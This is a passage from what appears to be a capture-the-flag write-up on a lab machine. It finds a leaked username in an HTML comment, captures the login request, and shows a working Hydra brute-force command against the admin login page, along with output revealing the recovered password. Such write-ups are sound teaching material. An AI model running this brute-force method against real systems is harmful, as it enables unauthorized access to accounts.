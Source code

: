   ```
  ===============================================================
  ```
  
- When I visited `http://10.10.141.37/admin`, there is a login page that we are going to brute force. I also found one more important information in the source code.

  ```
              <h1>LOGIN</h1>

            
            <label>USERNAME</label>
            <input type="text" name="user">

            <label>PASSWORD</label>
            <input type="password" name="pass">

            <button type="submit">LOGIN</button>
        </form>
    </div>

    <!-- Hey john, if you do not remember, the username is admin -->
  ```

- That will cover whole reconnaissance part, moving to getting access to the target machine.
---

## ⚙️ Shell Access

- Since we know the username we will brute force our way into the login page with Hydra. Also, capture the login request with Burp so you can get parameters for Hydra.

  ```
  POST /admin/ HTTP/1.1
  Host: 10.10.141.37
  User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
  Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
  Accept-Language: en-US,en;q=0.5
  Accept-Encoding: gzip, deflate, br
  Content-Type: application/x-www-form-urlencoded
  Content-Length: 20
  Origin: http://10.10.141.37
  Connection: keep-alive
  Referer: http://10.10.141.37/admin/
  Cookie: PHPSESSID=9su12482omgs2tvj319ab3ohg5
  Upgrade-Insecure-Requests: 1
  Priority: u=0, i
  
  user=admin&pass=test
  ```

  ```
  hydra -l admin -P /rockyou.txt 10.10.141.37 http-post-form "/admin/:user=^USER^&pass=^PW^&Login=Login:Username or password invalid" 
  Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).
  
  Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-05-08 16:13:23
  [DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
  [DATA] attacking http-post-form://10.10.141.37:80/admin/:user=^USER^&pass=^PW^&Login=Login:Username or password invalid
  [SNIP!]
  [80][http-post-form] host: 10.10.141.37   login: admin   password: xavier
  1 of 1 target successfully completed, 1 valid password found
  Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-05-08 16:13:40
  ```